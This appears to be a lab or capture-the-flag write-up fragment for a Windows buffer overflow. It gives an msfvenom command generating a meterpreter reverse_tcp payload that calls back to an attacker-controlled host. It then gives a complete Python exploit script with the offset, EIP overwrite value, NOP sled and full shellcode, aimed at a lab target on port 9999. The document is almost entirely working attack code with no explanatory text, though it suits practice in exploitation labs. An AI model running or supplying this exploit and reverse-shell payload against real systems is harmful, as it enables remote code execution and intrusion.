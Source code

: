 ![boftest-working](assets/markdown-img-paste-20210908202746854.png)

Working on practice machine, let's try target.
## Foothold/Exploit
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.210.115 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00"`

```
#!/usr/bin/python3

import socket

# socket values
ip = "10.10.161.80"
port = 9999

# sendbuff values
cmd = ""
offset = 524
overflow = "A" * offset
eip_val = "\xf3\x12\x17\x31"
nops = "\x90" * 16
payload = ("\xdb\xdc\xd9\x74\x24\xf4\xb8\x3a\x83\xdc\x48\x5f\x29\xc9\xb1"
"\x5e\x31\x47\x1a\x83\xef\xfc\x03\x47\x16\xe2\xcf\x7f\x34\xc7"
"\x2f\x80\xc5\xb8\x1e\x52\xa1\xb3\x32\x62\xa1\x96\xbe\x09\xe7"
"\x02\x37\xe8\x39\xd4\xcc\x81\x11\x25\x65\x2f\x44\x08\x49\x1c"
"\xb4\x0b\x35\x5f\xe9\xeb\x04\x90\xfc\xea\x41\x66\x8a\x03\x1f"
"\x2e\xff\x8e\x8f\x5b\xbd\x12\xae\x8b\xc9\x2b\xc8\xae\x0e\xdf"
"\x64\xb0\x5e\xab\x2c\x92\x5f\x7f\x47\x9a\x47\x2f\xd2\xd2\x0c"
"\xf3\x95\xd5\x13\x80\x11\x9d\xed\x41\x68\x61\x2c\xa2\x87\xcd"
"\xae\xfa\xaf\xed\xc4\xf0\xcc\x90\xde\xc2\xaf\x4e\x6a\xd5\x17"
"\x04\xcc\x31\xa6\xc9\x8b\xb2\xa4\xa6\xd8\x9d\xa8\x39\x0c\x96"
"\xd4\xb2\xb3\x79\x5d\x80\x97\x5d\x06\x52\xb9\xc4\xe2\x35\xc6"
"\x17\x4a\xe9\x62\x53\x78\xfc\x13\x9c\x83\x01\x4e\x0b\x48\xcc"
"\x71\xcb\xc6\x47\x01\xf9\x49\xfc\x8d\xb1\x02\xda\x4a\xc3\x04"
"\xdd\x85\x6b\x44\x23\x26\x8c\x4d\xe0\x72\xdc\xe5\xc1\xfa\xb7"
"\xf5\xee\x2e\x2d\xff\x78\xdb\xba\x2d\x0b\xb3\xb8\xd1\xed\xf8"
"\x34\x37\xbd\xae\x16\xe7\x7e\x1f\xd7\x57\x17\x75\xd8\x88\x07"
"\x76\x32\xa1\xa2\x99\xeb\x9a\x5a\x03\xb6\x50\xfa\xcc\x6c\x1d"
"\x3c\x46\x85\xe2\xf3\xaf\xec\xf0\xe4\xd7\x0e\x08\xf5\x7d\x0f"
"\x62\xf1\xd7\x58\x1a\xfb\x0e\xae\x85\x04\x65\xac\xc1\xfb\xf8"
"\x85\xba\xca\x6e\xaa\xd4\x32\x7f\x2a\x24\x65\x15\x2a\x4c\xd1"
"\x4d\x79\x69\x1e\x58\xed\x22\x8b\x63\x44\x97\x1c\x0c\x6a\xce"
"\x6b\x93\x95\x25\xe8\xd4\x6a\xb8\xc7\x7c\x03\x42\x58\x7d\xd3"
"\x28\x58\x2d\xbb\xa7\x77\xc2\x0b\x48\x52\x8b\x03\xc3\x33\x79"
"\xb5\xd4\x19\xdf\x6b\xd5\xae\xc4\x9c\xac\xdf\xfb\x5c\x51\xf6"
"\x9f\x5c\x52\xf6\xa1\x61\x85\xcf\xd7\xa4\x16\x74\xf7\x3a\xb2"
"\x81\x90\xe2\x57\x28\xfd\x14\x82\x6f\xf8\x96\x26\x10\xff\x87"
"\x43\x15\xbb\x0f\xb8\x67\xd4\xe5\xbe\xd4\xd5\x2f")
```